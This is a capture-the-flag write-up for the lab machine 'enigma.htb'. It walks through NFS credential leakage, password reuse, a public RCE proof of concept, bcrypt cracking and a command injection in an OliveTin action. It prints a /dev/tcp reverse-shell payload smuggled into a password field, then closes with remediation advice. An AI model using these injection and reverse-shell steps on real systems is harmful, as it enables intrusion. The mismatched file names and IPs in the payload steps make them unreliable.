## Successful Approach-User flag
- We always start with a port scan `nmap -sC -sV [IP]`, with a bunch of open ports, which already scream danger
    - 
    - 

```bash
nmap -sC -sV enigma.htb
```

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
80/tcp  open  http    nginx 1.24.0 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
111/tcp open  rpcbind 2-4 (RPC #100000)   # NFS — note the nfs/mountd/nlockmgr programs
143/tcp open  imap    Dovecot imapd (Ubuntu)
2049/tcp open nfs     3-4 (RPC #100003)
```
- Port 80 is open, let's connect to the website via first mapping the IP to the domain name in `/etc/hosts`
- Then let's use `gobuster dir -u [url] -w /usr/share/wordlists/dirb/common.txt` to see if there are any portals
    - 
- There are none, and it also seems that the webpage doesn't let us interact that much, so it might just be a red herring.
- Let's go back to the port scan and check if we can use anything else more, hmm the nfs looks problematic, why is it open?
- Let's try doing `showmount -e enigma.htb`
    - 
- Pretty bad! There is no IP restriction, let's try mounting this file to local:
    - `mkdir -p /mnt/enigma`
    - `sudo mount -t nfs enigma.htb:/srv/nfs/onboarding /mnt/enigma -o vers=3,nolock`
- It successfully mounted! If we go into that mount point we can see a pdf file lying there, upon opening we see:
    - 
- This seems useful, adding it to `/etc/hosts` and visiting it with the creds:
    - 
- We are in but this doesn't seem useful too, try `ssh kevin@enigma.htb` and see if ssh can be directly used, but it fails because they seem to use FIDO
- Also, the RoundCube version is 
    - 
    - Which is not known for any vulnerabilities for now, it is the patched version, so maybe attacking RoundCube is not the intended way? Let's keep enumerating on this site
- Still nothing useful shows, but we know that `sarah@enigma.htb` is the person that sends the message to kevin, and after an instinct guess I thought that she might just use the same password as kevin, because they might have experienced the same onboarding experience, and the Password shown seems not random at all. And I was right!
    - 
    - I logged in as sarah and this mail seems useful too!
- Let's visit and login (remember to add to `/etc/hosts`)
    - 
- Let's search for the flag first but it does not seem it is in here, so we instead look for the version at the bottom, and we see that it is Version 2.9.8, which after researching it has documented RCE vulnerabilites
- We do `git clone https://github.com/jonathan-corbin/CVE-2025-69212-Authenticated-RCE-PoC
`, then `cd CVE-2025-69212-Authenticated-RCE-PoC`
- Read the README for usage of the `exploit.py`, setup a listener and use the reverse shell method: `./exploit.py -u http://support_001.enigma.htb -l admin -p Ne3s4rtars78s -s 10.10.15.17 -P 4444`
- We are in! But doing `whoami` does not seem that we are a user or an admin (and straight up trying `su kevin` or anything else don't work, thus we want to go in mysql to try to find, how so? We have `config.inc.php`, so we can find the db data in there, then we just do `mysql -u <dbuser> -p'<dbpass>' <dbname>` to login to mysql and try to dump the user/pass combination
- `show tables;`, we find there is a `zz_users` table, `select * from zz_users;` we find useful stuff
    - 
- However these are bcrypt hashes, and I'm sure this is the right way to do so, thus I head back to my Kali machine to try and crack this:
    - Let's store the hash of haris in a file called haris.hash
    - `hashcat -m 3200 haris.hash /usr/share/wordlists/john.lst`
    - We cracked it!!!!!!!!
        - 
- Let's head to `~/.local/share/hashcat` and cat the `hashcat.potfile` to grab the pwd. Then head back to the shell and login to claim the userflag!

## Priv Escalation-Root flag
```KEY THOUGHT PROCESS ```
> Does it run as root? (the power)
Can I influence it? (the control)

- Now, because the db table also stored the admin hash, so let's also try to crack the hash for admin to see if it is that simple, however status shows that it is `Exhausted`, maybe the pwd is too complex
- We now try from the user `haris` and start our privesc steps from there

#### Static Vectors
- `sudo -l` → not permitted
- `find / -perm -4000` → finds mount, su, passwd, pkexec-family…). No custom binary, thus it is also not useful for privesc
- `id` → haris users only. No docker/lxd/disk/adm/shadow. No group-based path.
- `/etc/crontab + /etc/cron.*` → only stock run-parts jobs, all root:root and non-writable. 
- `/etc/exports → /srv/nfs/onboarding *(ro)`. NFS also doesn't work too, because there is no `no_root_squash`
- These static vectors all do not work, so we try some dynamic vectors
#### Dynamic Vectors
- `systemctl list-timers` → all 18 timers baseline (red herring; ignore).
- `find /etc/systemd/system -type f` → `OliveTin.service` — the only custom unit on the box, maybe we can try this?
- Let's read the config of it: `cat /etc/OliveTin/config.yaml`
    - 
    - We can see that `authRequireGuestsToLogin: false`, so this means we do not need credentials for:
    - 
        - This is super important! See that for user and name there is `type:ascii_identifier` but for the password it is `type:password`. In this schema, a password type does NOT sanitize input, only masks it, thus this can be our attack vector for the reverse shell
- Now, to trigger this vuln we have to send OliveTin a request that says "run the backup_database action, and here are the arguments (such as a rev shell)." The problem is that we don't know the exact format of that request.
- Seems like the website is only placeholders, so we can't use Burpsuite to see what the API req. looks like, thus we have to trial and error.
- There are 3 components we have to fill in: (how do we know? just trial and error from this oracle)
    - **API gateway**: we can find this online with OliveTin API
    - 
        - After doing so, we can send http requests and see which return 200 instead of 404
    - **ID**: this is the easiest, where it is already obvious in the config.yaml file
    - **Request shape**: what goes before the id? We try some conventions: `actionId, actionName, action, id, name`
- Lastly, we just have to set up this file and inject the reverse shell: (inject in db_pass because unsanitized)
```bash=
cat > /tmp/rev.json <<'EOF'
{ "actionId": "backup_database",
  "arguments": [
    { "name": "db_user", "value": "root" },
    { "name": "db_pass", "value": "' ; bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1' ; '" },
    { "name": "db_name", "value": "production" }
  ] }
EOF
```
- Note that this hardest part is knowing how to inject this value:
    - `mysqldump -u root -p'{{ db_pass }}' production > ...` Understand from the .yaml file that our input gets pasted in this, so we first add a single quote to escape the `-p'`, a `;` to stop `mysqldump`. then we inject the shell in.
- Lastly run this:
```bash
curl -sS -X POST http://127.0.0.1:1337/api/StartActionAndWait \
  -H 'Content-Type: application/json' --data @/tmp/p.json
```

## Remediation

- **Restrict the NFS export.** `showmount -e` showed `/srv/nfs/onboarding` exported to `*` with no IP restriction, which handed us the onboarding PDF. Export only to specific hosts, use `root_squash`, and don't put credentials in onboarding documents at all. See the [NFS exports(5) manual](https://man7.org/linux/man-pages/man5/exports.5.html).
- **No password reuse.** Logging in as `sarah` worked because she reused `kevin`'s onboarding password. Enforce unique passwords and rotate the default onboarding credential on first login.
- **Patch the support app.** The shell came from [CVE-2025-69212](https://github.com/jonathan-corbin/CVE-2025-69212-Authenticated-RCE-PoC) — keep it updated. And the DB stored bcrypt hashes with weak passwords that hashcat cracked, so enforce password strength.
- **Lock down OliveTin.** `authRequireGuestsToLogin: false` let anyone trigger the `backup_database` action, and its `password`-type argument wasn't sanitized, so it injected into `mysqldump -p'{{ db_pass }}'`. Require authentication, and never interpolate action arguments into a shell string — pass them as an argument vector. See [OWASP — Command Injection Defense](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html).

### References

- [NFS exports(5)](https://man7.org/linux/man-pages/man5/exports.5.html)
- [CVE-2025-69212 — authenticated RCE PoC](https://github.com/jonathan-corbin/CVE-2025-69212-Authenticated-RCE-PoC)
- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
